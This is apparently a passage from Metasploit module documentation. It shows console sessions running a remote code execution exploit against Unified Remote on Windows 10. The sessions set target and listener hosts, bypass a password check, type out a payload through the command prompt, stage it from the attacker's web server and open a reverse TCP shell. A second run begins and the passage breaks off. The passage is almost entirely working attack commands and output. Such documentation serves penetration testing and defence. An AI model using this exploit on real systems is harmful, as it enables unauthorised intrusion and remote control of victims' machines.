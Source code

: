 ```
resource (unified.rb)> use exploits/windows/misc/unified_remote_rce
[*] Using configured payload windows/shell/reverse_tcp
resource (unified.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (unified.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (unified.rb)> set verbose true
verbose => true
msf exploit(windows/misc/unified_remote_rce) > exploit

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] 2.2.2.2:9512 - Client name set to: android-Mmw9X2FSLLPzJk6t
[*] 2.2.2.2:9512 - Retrieving server config
[*] 2.2.2.2:9512 - users mode enabled, password required, bypassing
[*] 2.2.2.2:9512 - Uploading new server config
[*] 2.2.2.2:9512 - Sleeping 5 seconds for server to restart
[+] 2.2.2.2:9512 - Found account: admin
[+] 2.2.2.2:9512 - Found account: wheres
[*] 2.2.2.2:9512 - Sending handshake
[*] 2.2.2.2:9512 - Sending empty authentication
[*] 2.2.2.2:9512 - Opening Start Menu
[*] 2.2.2.2:9512 - Opening command prompt
[*] 2.2.2.2:9512 - Typing out payload
[*] 2.2.2.2:9512 - Using URL: http://1.1.1.1:8080/
[*] 2.2.2.2:9512 - Attempting to open payload
[+] 2.2.2.2:9512 - Payload request received, sending 73802 bytes of payload for staging
[+] 2.2.2.2:9512 - Payload request received, sending 73802 bytes of payload for staging
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 2.2.2.2
[*] 2.2.2.2:9512 - Reverting security mode
[*] 2.2.2.2:9512 - Uploading new server config
[*] 2.2.2.2:9512 - Sleeping 5 seconds for server to restart
[*] Command shell session 1 opened (1.1.1.1:4444 -> 2.2.2.2:59932) at 2022-09-08 16:53:05 -0400
[*] 2.2.2.2:9512 - Server stopped.
[!] 2.2.2.2:9512 - This exploit may require manual cleanup of 'c:\Windows\Temp\2NzuxPbY6fGK9FdNy.exe' on the target


Shell Banner:
Microsoft Windows [Version 10.0.16299.125]
-----
          

C:\Users\windows>
```

### Version 3.11.0.2483 on Windows 10, no authentication, no web server access, visible true

```
resource (unified.rb)> use exploits/windows/misc/unified_remote_rce
[*] Using configured payload windows/shell/reverse_tcp
resource (unified.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (unified.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (unified.rb)> set verbose true
verbose => true
msf exploit(windows/misc/unified_remote_rce) > exploit

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] 2.2.2.2:9512 - Client name set to: android-EIC1Bc3pwL4U4Pnj
[*] 2.2.2.2:9512 - Retrieving server config
```